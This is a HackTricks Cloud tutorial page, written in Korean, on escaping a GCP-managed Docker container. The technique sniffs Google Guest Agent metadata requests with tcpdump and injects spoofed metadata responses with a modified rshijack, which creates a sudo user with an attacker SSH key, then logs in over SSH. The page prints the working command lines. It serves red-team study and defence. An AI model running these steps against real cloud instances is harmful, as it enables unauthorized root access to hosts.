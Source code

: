 # GCP - Network Docker Escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Initial State

이 기술이 명시된 두 개의 보고서에서 공격자는 GCP에서 관리하는 **Docker** 컨테이너 내에서 **root** 접근 권한을 얻었으며, 호스트 네트워크에 접근할 수 있었습니다 (및 **`CAP_NET_ADMIN`** 및 **`CAP_NET_RAW`** 권한).

## Attack Explanation

Google Compute Engine 인스턴스에서 네트워크 트래픽을 정기적으로 검사하면 **메타데이터 인스턴스**에 대한 수많은 **일반 HTTP 요청**이 `169.254.169.254`로 전송되는 것을 확인할 수 있습니다. [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent)는 이러한 요청을 자주 수행하는 오픈 소스 서비스입니다.

이 에이전트는 **메타데이터의 변경 사항을 모니터링**하도록 설계되었습니다. 특히, 메타데이터에는 **SSH 공개 키 필드**가 포함되어 있습니다. 새로운 공개 SSH 키가 메타데이터에 추가되면, 에이전트는 자동으로 `.authorized_key` 파일에서 이를 **승인**합니다. 필요할 경우 **새 사용자**를 생성하고 **sudoers**에 추가할 수도 있습니다.

에이전트는 **모든 메타데이터 값을 재귀적으로 검색**하기 위해 요청을 전송하여 변경 사항을 모니터링합니다 (`GET /computeMetadata/v1/?recursive=true`). 이 요청은 마지막 검색 이후 메타데이터에 변경 사항이 있을 경우에만 메타데이터 서버가 응답하도록 유도합니다. 이는 Etag(`wait_for_change=true&last_etag=`)로 식별됩니다. 또한 **타임아웃** 매개변수(`timeout_sec=`)가 포함됩니다. 지정된 타임아웃 내에 변경 사항이 발생하지 않으면 서버는 **변경되지 않은 값**으로 응답합니다.

이 프로세스는 **IMDS** (Instance Metadata Service)가 구성 변경이 발생하지 않은 경우 **60초** 후에 응답할 수 있도록 하여, 게스트 에이전트에 대한 가짜 구성 응답을 주입할 수 있는 잠재적인 **창**을 생성합니다.

공격자는 이를 이용하여 **Man-in-the-Middle (MitM) 공격**을 수행하고 IMDS 서버의 응답을 스푸핑하여 **새 공개 키를 삽입**할 수 있습니다. 이는 호스트에 대한 무단 SSH 접근을 가능하게 할 수 있습니다.

### Escape Technique

ARP 스푸핑은 Google Compute Engine 네트워크에서 효과적이지 않지만, [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)에서 개발한 [**수정된 rshijack 버전**](https://github.com/ezequielpereira/rshijack)을 사용하여 SSH 사용자를 주입하기 위한 패킷 주입을 수행할 수 있습니다.

이 rshijack 버전은 ACK 및 SEQ 번호를 명령줄 인수로 입력할 수 있어, 실제 메타데이터 서버 응답 전에 응답을 스푸핑할 수 있습니다. 또한, [**작은 Shell 스크립트**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh)를 사용하여 **특별히 제작된 페이로드**를 반환합니다. 이 페이로드는 Google Guest Agent가 `.authorized_keys` 파일에 지정된 공개 키로 `wouter` 사용자를 **생성**하도록 유도합니다.

스크립트는 같은 ETag를 사용하여 메타데이터 서버가 Google Guest Agent에 다른 메타데이터 값을 즉시 알리지 않도록 하여 응답을 지연시킵니다.

스푸핑을 실행하기 위해서는 다음 단계가 필요합니다:

1. **tcpdump**를 사용하여 메타데이터 서버에 대한 요청을 모니터링합니다:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
유사한 줄을 찾아보세요:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. 올바른 ETAG와 함께 가짜 메타데이터를 rshijack에 전송합니다:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
이 단계는 공개 키를 인증하여 해당 개인 키로 SSH 연결을 가능하게 합니다.

## References

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
